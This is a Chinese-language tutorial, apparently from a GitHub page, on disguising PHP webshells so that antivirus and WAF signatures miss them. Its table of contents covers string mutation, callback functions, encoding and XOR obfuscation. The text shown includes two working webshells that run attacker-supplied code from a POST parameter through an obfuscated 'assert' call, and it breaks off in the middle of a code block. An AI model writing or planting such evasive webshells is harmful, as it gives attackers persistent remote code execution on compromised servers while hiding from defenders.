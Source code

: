 

- [1. 关于eval与assert](#1-关于eval与assert)
- [2. 免杀方法](#2-免杀方法)
    - [2.1. 字符串变形](#21-字符串变形)
        - [2.1.1. PHP中关于操作字符串的函数](#211-php中关于操作字符串的函数)
        - [2.1.2. 变形](#212-变形)
    - [2.2. 定义函数](#22-定义函数)
    - [2.3. 回调函数](#23-回调函数)
        - [2.3.1. 回调函数列表](#231-回调函数列表)
        - [2.3.2. 冷门回调函数](#232-冷门回调函数)
        - [2.3.3. 回调函数变形](#233-回调函数变形)
    - [2.4. 特殊字符干扰](#24-特殊字符干扰)
    - [2.5. 数组](#25-数组)
    - [2.6. 类](#26-类)
    - [2.7. 编码](#27-编码)
    - [2.8. 去字符特征](#28-去字符特征)
        - [2.8.1. 利用异或、编码等方式](#281-利用异或编码等方式)
        - [2.8.2. 利用正则匹配字符](#282-利用正则匹配字符)
        - [2.8.3. 利用 POST 包获取关键参数执行](#283-利用-post-包获取关键参数执行)
- [3. 总结](#3-总结)


# 1. 关于eval与assert
eval是一个语言构造器而不是一个函数，不能被可变函数调用，例如`<?php $a=eval;$a()?>`就无法正常运行，所以用eval的话不如assert灵活。assert回调函数则允许你简易地捕获传入断言的代码，并包含断言的位置信息。
# 2. 免杀方法
## 2.1. 字符串变形
### 2.1.1. PHP中关于操作字符串的函数
```php
ucwords() //函数把字符串中每个单词的首字符转换为大写
ucfirst() //函数把字符串中的首字符转换为大写
trim() //函数从字符串的两端删除空白字符和其他预定义字符
substr_replace() //函数把字符串的一部分替换为另一个字符串
substr() //函数返回字符串的一部分
strtr() //函数转换字符串中特定的字符
strtoupper() //函数把字符串转换为大写
strtolower() //函数把字符串转换为小写
strtok() //函数把字符串分割为更小的字符串
str_rot13() //函数对字符串执行 ROT13 编码
```
### 2.1.2. 变形
用 substr_replace() 函数变形assert达到免杀的效果
```php
<?php
$a = substr_replace("assexx","rt",4);
$a($_POST['x']);
?>
```
## 2.2. 定义函数
定义一个函数把关键词分割达到bypass效果
```php
<?php 
function kdog($a){
    $a($_POST['x']);
}
kdog(assert);
?>
//另一端
<?php 
```